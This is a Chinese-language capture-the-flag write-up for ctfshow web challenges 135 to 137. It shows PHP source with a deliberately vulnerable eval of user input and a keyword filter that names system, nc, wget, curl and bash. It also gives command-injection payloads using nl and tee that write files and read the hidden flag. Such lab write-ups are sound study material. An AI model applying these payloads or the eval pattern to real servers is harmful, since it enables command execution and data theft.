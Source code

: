 ```PHP
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

发现没有限制写文件

```
payload:F=`$F `;nl f*>xxx
1
```

然后再去访问url/xxx就可以得到flag了

## web136

其实是再135的基础上增加了过滤 ><
但是linux中还可以用tee写文件

ls|tee xxx

我们先来看下当前目录下有啥文件，访问url/xxx发现只有一个index.php
那我们再去看看根目录下有什么文件

ls /|tee xxx

得到 f149_15_h3r3
最后直接打开就可以了

nl  /f149_15_h3r3|tee xxx

## 137

class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}
call_user_func($_POST['ctfshow']);

